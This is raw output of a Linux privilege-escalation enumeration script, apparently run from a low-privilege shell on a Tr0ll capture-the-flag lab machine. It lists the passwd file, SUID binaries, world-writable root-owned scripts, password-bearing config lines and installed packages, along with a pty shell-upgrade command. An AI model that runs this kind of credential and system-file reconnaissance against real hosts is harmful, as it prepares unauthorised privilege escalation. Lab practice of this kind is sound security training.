-rwxr-xr-x 1 root root 427 Apr 16 2014 fstrim
-rwxr-xr-x 1 root root 771 Apr 10 2014 man-db
-rw-r--r-- 1 root root 102 Feb 8 2013 .placeholder
[+] Writable cron dirs
[*] ENUMERATING USER AND ENVIRONMENTAL INFO...
[+] Logged in User Activity
14:08:53 up 3:56, 1 user, load average: 0.00, 0.02, 0.05
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
overflow pts/0 192.168.43.3 14:07 5.00s 0.02s 0.02s python -c import pty;pty.spawn("/bin/bash")
[+] Super Users Found:
root
[+] Environment
MAIL=/var/mail/overflow
SSH_CLIENT=192.168.43.3 50124 22
USER=overflow
LANGUAGE=en_US:
SHLVL=1
HOME=/home/overflow
OLDPWD=/tmp
SSH_TTY=/dev/pts/0
LOGNAME=overflow
_=/usr/bin/python
XDG_SESSION_ID=6
TERM=xterm-256color
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
XDG_RUNTIME_DIR=/run/user/1002
LANG=en_US.UTF-8
SHELL=/bin/sh
PWD=/tmp
SSH_CONNECTION=192.168.43.3 50124 192.168.43.6 22
[+] Root and current user history (depends on privs)
[+] Sudoers (privileged)
[+] All users
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
troll:x:1000:1000:Tr0ll,,,:/home/troll:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:104:112:ftp daemon,,,:/srv/ftp:/bin/false
lololol:x:1001:1001::/home/lololol:
overflow:x:1002:1002::/home/overflow:
ps-aux:x:1003:1003::/home/ps-aux:
maleus:x:1004:1004::/home/maleus:
felux:x:1005:1005::/home/felux:
Eagle11:x:1006:1006::/home/Eagle11:
genphlux:x:1007:1007::/home/genphlux:
usmc8892:x:1008:1008::/home/usmc8892:
blawrg:x:1009:1009::/home/blawrg:
wytshadow:x:1010:1010::/home/wytshadow:
vis1t0r:x:1011:1011::/home/vis1t0r:
[+] Current User
overflow
[+] Current User ID
uid=1002(overflow) gid=1002(overflow) groups=1002(overflow)
[*] ENUMERATING FILE AND DIRECTORY PERMISSIONS/CONTENTS...
[+] World Writeable Directories for User/Group 'Root'
drwxrwxrwt 2 root root 4096 Oct 28 14:08 /tmp
drwxrwxrwt 2 root root 40 Oct 28 10:12 /run/shm
drwxrwxrwt 4 root root 80 Oct 28 10:12 /run/lock
drwxrwxrwt 2 root root 4096 Aug 13 2014 /var/tmp
[+] World Writeable Directories for Users other than Root
[+] World Writable Files
-rwxrwxrwx 1 troll root 8068 Aug 10 2014 /srv/ftp/lol.pcap
-rwxrwxrwx 1 root root 34 Aug 13 2014 /var/tmp/cleaner.py.swp
-rwxrwxrwx 1 root root 7296 Aug 11 2014 /var/www/html/sup3rs3cr3tdirlol/roflmao
-rwxrwxrwx 1 root root 23 Aug 13 2014 /var/log/cronlog
--w--w--w- 1 root root 0 Oct 28 14:07 /sys/fs/cgroup/systemd/user/1002.user/6.session/cgroup.event_control
--w--w--w- 1 root root 0 Oct 28 14:07 /sys/fs/cgroup/systemd/user/1002.user/cgroup.event_control
--w--w--w- 1 root root 0 Oct 28 11:18 /sys/fs/cgroup/systemd/user/cgroup.event_control
--w--w--w- 1 root root 0 Oct 28 10:12 /sys/fs/cgroup/systemd/cgroup.event_control
-rw-rw-rw- 1 root root 0 Oct 28 10:12 /sys/kernel/security/apparmor/.access
-rwxrwxrwx 1 root root 96 Aug 13 2014 /lib/log/cleaner.py
[+] Checking if root's home folder is accessible
[+] SUID/SGID Files and Directories
-rwsr-sr-x 1 libuuid libuuid 17996 Jun 3 2014 /usr/sbin/uuidd
-rwsr-xr-- 1 root dip 322968 Jan 22 2013 /usr/sbin/pppd
drwxrwsr-x 7 root staff 4096 Aug 9 2014 /usr/local/share/sgml
drwxrwsr-x 2 root staff 4096 Aug 9 2014 /usr/local/share/sgml/misc
drwxrwsr-x 2 root staff 4096 Aug 9 2014 /usr/local/share/sgml/entities
drwxrwsr-x 2 root staff 4096 Aug 9 2014 /usr/local/share/sgml/stylesheet
drwxrwsr-x 2 root staff 4096 Aug 9 2014 /usr/local/share/sgml/declaration
drwxrwsr-x 2 root staff 4096 Aug 9 2014 /usr/local/share/sgml/dtd
drwxrwsr-x 2 root staff 4096 Aug 9 2014 /usr/local/share/ca-certificates
drwxrwsr-x 6 root staff 4096 Aug 9 2014 /usr/local/share/xml
drwxrwsr-x 2 root staff 4096 Aug 9 2014 /usr/local/share/xml/misc
drwxrwsr-x 2 root staff 4096 Aug 9 2014 /usr/local/share/xml/entities
drwxrwsr-x 2 root staff 4096 Aug 9 2014 /usr/local/share/xml/schema
drwxrwsr-x 2 root staff 4096 Aug 9 2014 /usr/local/share/xml/declaration
drwxrwsr-x 3 root staff 4096 Aug 9 2014 /usr/local/lib/python3.4
drwxrwsr-x 2 root staff 4096 Jul 22 2014 /usr/local/lib/python3.4/dist-packages
drwxrwsr-x 4 root staff 4096 Aug 9 2014 /usr/local/lib/python2.7
drwxrwsr-x 2 root staff 4096 Aug 9 2014 /usr/local/lib/python2.7/site-packages
drwxrwsr-x 2 root staff 4096 Aug 9 2014 /usr/local/lib/python2.7/dist-packages
-rwsr-xr-x 1 root root 44620 Feb 16 2014 /usr/bin/chfn
-rwsr-xr-x 1 root root 156708 Feb 10 2014 /usr/bin/sudo
-rwsr-xr-x 1 root root 45420 Feb 16 2014 /usr/bin/passwd
-rwxr-sr-x 1 root mail 13960 Dec 6 2013 /usr/bin/dotlockfile
-rwxr-sr-x 1 root tty 9748 Jun 4 2013 /usr/bin/bsd-write
-rwxr-sr-x 3 root mail 9704 Dec 3 2012 /usr/bin/mail-lock
-rwsr-xr-x 1 root root 18136 May 7 2014 /usr/bin/traceroute6.iputils
-rwxr-sr-x 1 root shadow 49420 Feb 16 2014 /usr/bin/chage
-rwsr-xr-x 1 root root 72860 Oct 21 2013 /usr/bin/mtr
-rwsr-xr-x 1 root root 35916 Feb 16 2014 /usr/bin/chsh
-rwxr-sr-x 3 root mail 9704 Dec 3 2012 /usr/bin/mail-touchlock
-rwxr-sr-x 1 root crontab 34824 Feb 8 2013 /usr/bin/crontab
-rwsr-xr-x 1 root root 30984 Feb 16 2014 /usr/bin/newgrp
-rwxr-sr-x 1 root shadow 18208 Feb 16 2014 /usr/bin/expiry
-rwxr-sr-x 3 root mail 9704 Dec 3 2012 /usr/bin/mail-unlock
-rwxr-sr-x 1 root tty 18056 Jun 3 2014 /usr/bin/wall
-rwxr-sr-x 1 root mlocate 34452 Jun 20 2013 /usr/bin/mlocate
-rwxr-sr-x 1 root ssh 329144 May 12 2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 66252 Feb 16 2014 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 9612 Jul 28 2014 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 492972 May 12 2014 /usr/lib/openssh/ssh-keysign
-r-sr-xr-x 1 root root 10224 Aug 9 2014 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 9532 Aug 9 2014 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 5480 Feb 25 2014 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 329856 Jul 3 2014 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
drwxr-s--- 2 root dip 4096 Aug 9 2014 /etc/ppp/peers
drwxr-s--- 2 root dip 4096 Aug 9 2014 /etc/chatscripts
-rwxr-sr-x 1 root shadow 30432 Jan 31 2014 /sbin/unix_chkpwd
drwxrwsr-x 2 root staff 4096 Apr 10 2014 /var/local
drwxrwsr-x 2 root mail 4096 Jul 22 2014 /var/mail
drwxr-sr-x 32 man root 4096 Aug 10 2014 /var/cache/man
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/cs
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/cs/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/cs/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/cs/cat1
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/cat8
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/hu
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/hu/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/hu/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/hu/cat1
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/cat4
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/ru
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/ru/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/ru/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/ru/cat1
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/id
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/id/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/id/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/id/cat1
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/es
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/es/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/es/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/es/cat1
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/fr
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/fr/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/fr/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/fr/cat1
drwxr-sr-x 4 man root 4096 Aug 10 2014 /var/cache/man/sl
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/sl/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/sl/cat1
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/pt
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/pt/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/pt/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/pt/cat1
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/cat7
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/sv
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/sv/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/sv/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/sv/cat1
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/ko
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/ko/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/ko/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/ko/cat1
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/zh_CN
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/zh_CN/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/zh_CN/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/zh_CN/cat1
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/cat3
drwxr-sr-x 4 man root 4096 Aug 10 2014 /var/cache/man/fi
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/fi/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/fi/cat1
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/it
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/it/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/it/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/it/cat1
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/cat6
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/pl
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/pl/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/pl/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/pl/cat1
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/cat1
drwxr-sr-x 3 man root 4096 Aug 10 2014 /var/cache/man/gl
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/gl/cat8
drwxr-sr-x 6 man root 4096 Aug 10 2014 /var/cache/man/de
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/de/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/de/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/de/cat3
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/de/cat1
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/pt_BR
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/pt_BR/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/pt_BR/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/pt_BR/cat1
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/ja
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/ja/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/ja/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/ja/cat1
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/cat2
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/zh_TW
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/zh_TW/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/zh_TW/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/zh_TW/cat1
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/da
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/da/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/da/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/da/cat1
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/nl
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/nl/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/nl/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/nl/cat1
drwxr-sr-x 5 man root 4096 Aug 10 2014 /var/cache/man/tr
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/tr/cat8
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/tr/cat5
drwxr-sr-x 2 man root 4096 Aug 9 2014 /var/cache/man/tr/cat1
drwxrwsr-x 2 libuuid libuuid 4096 Jul 22 2014 /var/lib/libuuid
-rwsr-xr-x 1 root root 35300 Feb 16 2014 /bin/su
-rwsr-xr-x 1 root root 38932 May 7 2014 /bin/ping
-rwsr-xr-x 1 root root 30112 Dec 16 2013 /bin/fusermount
-rwsr-xr-x 1 root root 43316 May 7 2014 /bin/ping6
-rwsr-xr-x 1 root root 88752 Jun 3 2014 /bin/mount
-rwsr-xr-x 1 root root 67704 Jun 3 2014 /bin/umount
[+] Logs containing keyword 'password'
/var/log/bootstrap.log:Shadow passwords are now on.
[+] Config files containing keyword 'password'
/etc/ssl/openssl.cnf:# input_password = secret
/etc/ssl/openssl.cnf:# output_password = secret
/etc/ssl/openssl.cnf:challengePassword = A challenge password
/etc/ltrace.conf:; pwd.h
/etc/apache2/sites-available/default-ssl.conf: # Note that no password is obtained from the user. Every entry in the user
/etc/apache2/sites-available/default-ssl.conf: # file needs this password: `xxj31ZMTZzkVA'.
/etc/hdparm.conf:# --security-set-pass Set security password
/etc/hdparm.conf:# security_pass = password
/etc/hdparm.conf:# --user-master Select password to use
/etc/iscsi/iscsid.conf:# To set a CHAP username and password for initiator
/etc/iscsi/iscsid.conf:#node.session.auth.password = password
/etc/iscsi/iscsid.conf:# To set a CHAP username and password for target(s)
/etc/iscsi/iscsid.conf:#node.session.auth.password_in = password_in
/etc/iscsi/iscsid.conf:# To set a discovery session CHAP username and password for the initiator
/etc/iscsi/iscsid.conf:#discovery.sendtargets.auth.password = password
/etc/iscsi/iscsid.conf:# To set a discovery session CHAP username and password for target(s)
/etc/iscsi/iscsid.conf:#discovery.sendtargets.auth.password_in = password_in
/etc/debconf.conf:# World-readable, and accepts everything but passwords.
/etc/debconf.conf:Reject-Type: password
/etc/debconf.conf:# Not world readable (the default), and accepts only passwords.
/etc/debconf.conf:Name: passwords
/etc/debconf.conf:Accept-Type: password
/etc/debconf.conf:Filename: /var/cache/debconf/passwords.dat
/etc/debconf.conf:# databases, one to hold passwords and one for everything else.
/etc/debconf.conf:Stack: config, passwords
/etc/debconf.conf:# A remote LDAP database. It is also read-only. The password is really
/etc/fail2ban/action.d/route.conf:# - It's per host, ideal as action against ssh password bruteforcing to block further attack attempts.
/etc/fail2ban/action.d/route.conf:# - Blocking is per IP and NOT per service, but ideal as action against ssh password bruteforcing hosts
/etc/fail2ban/action.d/mynetwatchman.conf:# (your mNW password).
/etc/fail2ban/action.d/mynetwatchman.conf:# Notes.: The password corresponding to your mNW login e-mail address. MUST be
/etc/fail2ban/filter.d/dropbear.conf: ^%(__prefix_line)s[Bb]ad (PAM )?password attempt for .+ from (:\d+)?$
/etc/fail2ban/filter.d/nginx-http-auth.conf:failregex = ^ \[error\] \d+#\d+: \*\d+ user "\S+":? (password mismatch|was not found in ".*"), client: , server: \S+, request: "\S+ \S+ HTTP/\d+\.\d+", host: "\S+"\s*$
/etc/fail2ban/filter.d/apache-auth.conf: ^%(_apache_error_client)s (AH0179[24]: )?(Digest: )?user .*: password mismatch: \S*\s*$
/etc/fail2ban/filter.d/lighttpd-auth.conf:# Fail2Ban filter to match wrong passwords as notified by lighttpd's auth Module
/etc/fail2ban/filter.d/lighttpd-auth.conf:failregex = ^: \(http_auth\.c\.\d+\) (password doesn\'t match .* username: .*|digest: auth failed for .*: wrong password|get_password failed), IP: \s*$
/etc/fail2ban/filter.d/asterisk.conf:failregex = ^%(log_prefix)s Registration from '[^']*' failed for '(:\d+)?' - (Wrong password|No matching peer found|Username/auth name mismatch|Device does not match ACL|Peer is not supposed to register|ACL error \(permit/deny\)|Not a local domain)$
/etc/fail2ban/filter.d/mysqld-auth.conf:failregex = ^%(__prefix_line)s(\d{6} \s?\d{1,2}:\d{2}:\d{2} )?\[Warning\] Access denied for user '\w+'@'' (to database '[^']*'|\(using password: (YES|NO)\))*\s*$
/etc/fail2ban/filter.d/mysqld-auth.conf:# 130322 11:26:54 [Warning] Access denied for user 'root'@'127.0.0.1' (using password: YES)
/etc/fail2ban/filter.d/sogo-auth.conf:failregex = ^ sogod \[\d+\]: SOGoRootPage Login from '' for user '.*' might not have worked( - password policy: \d* grace: -?\d* expire: -?\d* bound: -?\d*)?\s*$
/etc/fail2ban/filter.d/proftpd.conf:__suffix_failed_login = (User not authorized for login|No such user found|Incorrect password|Password expired|Account disabled|Invalid shell: '\S+'|User in \S+|Limit (access|configuration) denies login|Not a UserAlias|maximum login length exceeded).?
/etc/fail2ban/filter.d/dovecot.conf: ^%(__prefix_line)s(Info|dovecot: auth\(default\)): pam\(\S+,\): pam_authenticate\(\) failed: (User not known to the underlying authentication module: \d+ Time\(s\)|Authentication failure \(password mismatch\?\))\s*$
[+] Shadow File (Privileged)
[*] ENUMERATING PROCESSES AND APPLICATIONS...
[+] Installed Packages
Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
Err?=(none)/Reinst-required (Status,Err:
Name Version Description
accountsservice 0.6.35-0ubuntu7.1 query and manipulate user account information
adduser 3.113+nmu3ubuntu3 add and remove users and groups
apache2 2.4.7-1ubuntu4.1 Apache HTTP Server
apache2-bin 2.4.7-1ubuntu4.1 Apache HTTP Server (binary files and modules)
apache2-data 2.4.7-1ubuntu4.1 Apache HTTP Server (common files)
apparmor 2.8.95~2430-0ubuntu5 User-space parser utility for AppArmor
apt 1.0.1ubuntu2.1 commandline package manager
apt-transport-https 1.0.1ubuntu2.1 https download transport for APT
apt-utils 1.0.1ubuntu2.1 package management related utility programs
apt-xapian-index 0.45ubuntu4 maintenance and search tools for a Xapian index of Debian packages
aptitude 0.6.8.2-1ubuntu4 terminal-based package manager
aptitude-common 0.6.8.2-1ubuntu4 architecture indepedent files for the aptitude package manager
base-files 7.2ubuntu5.1 Debian base system miscellaneous files
base-passwd 3.5.33 Debian base system master password and group files
bash 4.3-7ubuntu1 GNU Bourne Again SHell
bash-completion 1:2.1-4 programmable completion for the bash shell
bind9-host 1:9.9.5.dfsg-3 Version of 'host' bundled with BIND 9.X
binutils 2.24-5ubuntu3 GNU assembler, linker and binary utilities
biosdevname 0.4.1-0ubuntu6.1 apply BIOS-given names to network devices
bsdmainutils 9.0.5ubuntu1 collection of more utilities from FreeBSD
bsdutils 1:2.20.1-5.1ubuntu20.1 Basic utilities from 4.4BSD-Lite
busybox-initramfs 1:1.21.0-1ubuntu1 Standalone shell setup for initramfs
busybox-static 1:1.21.0-1ubuntu1 Standalone rescue shell with tons of builtin utilities
bzip2 1.0.6-5 high-quality block-sorting file compressor - utilities
ca-certificates 20130906ubuntu2 Common CA certificates
command-not-found 0.3ubuntu12 Suggest installation of packages in interactive bash sessions
command-not-found-data 0.3ubuntu12 Set of data files for command-not-found.
console-setup 1.70ubuntu8 console font and keymap setup program
coreutils 8.21-1ubuntu5 GNU core utilities
cpio 2.11+dfsg-1ubuntu1 GNU cpio -- a program to manage archives of files
cpp 4:4.8.2-1ubuntu6 GNU C preprocessor (cpp)
cpp-4.8 4.8.2-19ubuntu1 GNU C preprocessor
crda 1.1.2-1ubuntu2 wireless Central Regulatory Domain Agent
cron 3.0pl1-124ubuntu2 process scheduling daemon
dash 0.5.7-4ubuntu1 POSIX-compliant shell
dbus 1.6.18-0ubuntu4.1 simple interprocess messaging system (daemon and utilities)
debconf 1.5.51ubuntu2 Debian configuration management system
debconf-i18n 1.5.51ubuntu2 full internationalization support for debconf
debianutils 4.4 Miscellaneous utilities specific to Debian
dh-python 1.20140128-1ubuntu8 Debian helper tools for packaging Python libraries and applications
dictionaries-common 1.20.5 Common utilities for spelling dictionary tools
diffutils 1:3.3-1 File comparison utilities
dmidecode 2.12-2 SMBIOS/DMI table decoder
dmsetup 2:1.02.77-6ubuntu2 Linux Kernel Device Mapper userspace library
dnsutils 1:9.9.5.dfsg-3 Clients provided with BIND
dosfstools 3.0.26-1 utilities for making and checking MS-DOS FAT filesystems
dpkg 1.17.5ubuntu5.3 Debian package management system
e2fslibs:i386 1.42.9-3ubuntu1 ext2/ext3/ext4 file system libraries
e2fsprogs 1.42.9-3ubuntu1 ext2/ext3/ext4 file system utilities
ed 1.9-2 classic UNIX line editor
eject 2.1.5+deb1+cvs20081104-13.1 ejects CDs and operates CD-Changers under Linux
ethtool 1:3.13-1 display or change Ethernet device settings
fail2ban 0.8.11-1 ban hosts that cause multiple authentication errors
file 1:5.14-2ubuntu3.1 Determines file type using "magic" numbers
findutils 4.4.2-7 utilities for finding files--find, xargs
friendly-recovery 0.2.25 Make recovery more user-friendly
ftp 0.17-28 classical file transfer client
fuse 2.9.2-4ubuntu4 Filesystem in Userspace
gcc 4:4.8.2-1ubuntu6 GNU C compiler
gcc-4.8 4.8.2-19ubuntu1 GNU C compiler
gcc-4.8-base:i386 4.8.2-19ubuntu1 GCC, the GNU Compiler Collection (base package)
gcc-4.9-base:i386 4.9-20140406-0ubuntu1 GCC, the GNU Compiler Collection (base package)
geoip-database 20140313-1 IP lookup command line tools that use the GeoIP library (country database)
gettext-base 0.18.3.1-1ubuntu3 GNU Internationalization utilities for the base system
gir1.2-glib-2.0 1.40.0-1ubuntu0.1 Introspection data for GLib, GObject, Gio and GModule
gnupg 1.4.16-1ubuntu2.1 GNU privacy guard - a free PGP replacement
gpgv 1.4.16-1ubuntu2.1 GNU privacy guard - signature verification tool
grep 2.16-1 GNU grep, egrep and fgrep
groff-base 1.22.2-5 GNU troff text-formatting system (base system components)
grub-common 2.02~beta2-9ubuntu1 GRand Unified Bootloader (common files)
grub-gfxpayload-lists 0.6 GRUB gfxpayload blacklist
grub-pc 2.02~beta2-9ubuntu1 GRand Unified Bootloader, version 2 (PC/BIOS version)
grub-pc-bin 2.02~beta2-9ubuntu1 GRand Unified Bootloader, version 2 (PC/BIOS binaries)
grub2-common 2.02~beta2-9ubuntu1 GRand Unified Bootloader (common files for version 2)
gzip 1.6-3ubuntu1 GNU compression utilities
hdparm 9.43-1ubuntu3 tune hard disk parameters for high performance
hostname 3.15ubuntu1 utility to set/show the host name or domain name
ifupdown 0.7.47.2ubuntu4.1 high level tools to configure network interfaces
info 5.2.0.dfsg.1-2 Standalone GNU Info documentation browser
init-system-helpers 1.14 helper tools for all init systems
initramfs-tools 0.103ubuntu4.2 tools for generating an initramfs
initramfs-tools-bin 0.103ubuntu4.2 binaries used by initramfs-tools
initscripts 2.88dsf-41ubuntu6 scripts for initializing and shutting down the system
insserv 1.14.0-5ubuntu2 boot sequence organizer using LSB init.d script dependency information
install-info 5.2.0.dfsg.1-2 Manage installed documentation in info format
installation-report 2.54ubuntu1 system installation report
iproute2 3.12.0-2 networking and traffic control tools
iptables 1.4.21-1ubuntu1 administration tools for packet filtering and NAT
iputils-ping 3:20121221-4ubuntu1.1 Tools to test the reachability of network hosts
iputils-tracepath 3:20121221-4ubuntu1.1 Tools to trace the network path to a remote host
irqbalance 1.0.6-2 Daemon to balance interrupts for SMP systems
isc-dhcp-client 4.2.4-7ubuntu12 ISC DHCP client
isc-dhcp-common 4.2.4-7ubuntu12 common files used by all the isc-dhcp* packages
iso-codes 3.52-1 ISO language, territory, currency, script codes and their translations
kbd 1.15.5-1ubuntu1 Linux console font and keytable utilities
keyboard-configuration 1.70ubuntu8 system-wide keyboard preferences
klibc-utils 2.0.3-0ubuntu1 small utilities built with klibc for early boot
kmod 15-0ubuntu6 tools for managing Linux kernel modules
krb5-locales 1.12+dfsg-2ubuntu4 Internationalization support for MIT Kerberos
language-pack-en 1:14.04+20140707 translation updates for language English
language-pack-en-base 1:14.04+20140707 translations for language English
language-pack-gnome-en 1:14.04+20140707 GNOME translation updates for language English
language-pack-gnome-en-base 1:14.04+20140707 GNOME translations for language English
language-selector-common 0.129.2 Language selector for Ubuntu
laptop-detect 0.13.7ubuntu2 attempt to detect a laptop
less 458-2 pager program similar to more
libaccountsservice0:i386 0.6.35-0ubuntu7.1 query and manipulate user account information - shared libraries
libacl1:i386 2.2.52-1 Access control list shared library
libapparmor-perl 2.8.95~2430-0ubuntu5 AppArmor library Perl bindings
libapparmor1:i386 2.8.95~2430-0ubuntu5 changehat AppArmor library
libapr1:i386 1.5.0-1 Apache Portable Runtime Library
libaprutil1:i386 1.5.3-1 Apache Portable Runtime Utility Library
libaprutil1-dbd-sqlite3:i386 1.5.3-1 Apache Portable Runtime Utility Library - SQLite3 Driver
libaprutil1-ldap:i386 1.5.3-1 Apache Portable Runtime Utility Library - LDAP Driver
libapt-inst1.5:i386 1.0.1ubuntu2.1 deb package format runtime library
libapt-pkg4.12:i386 1.0.1ubuntu2.1 package management runtime library
libarchive-extract-perl 0.70-1 generic archive extracting module
libasan0:i386 4.8.2-19ubuntu1 AddressSanitizer -- a fast memory error detector
libasn1-8-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1 Heimdal Kerberos - ASN.1 library
libasprintf0c2:i386 0.18.3.1-1ubuntu3 GNU library to use fprintf and friends in C++
libatomic1:i386 4.8.2-19ubuntu1 support library providing __atomic built-in functions
libattr1:i386 1:2.4.47-1ubuntu1 Extended attribute shared library
libaudit-common 1:2.3.2-2ubuntu1 Dynamic library for security auditing - common files
libaudit1:i386 1:2.3.2-2ubuntu1 Dynamic library for security auditing
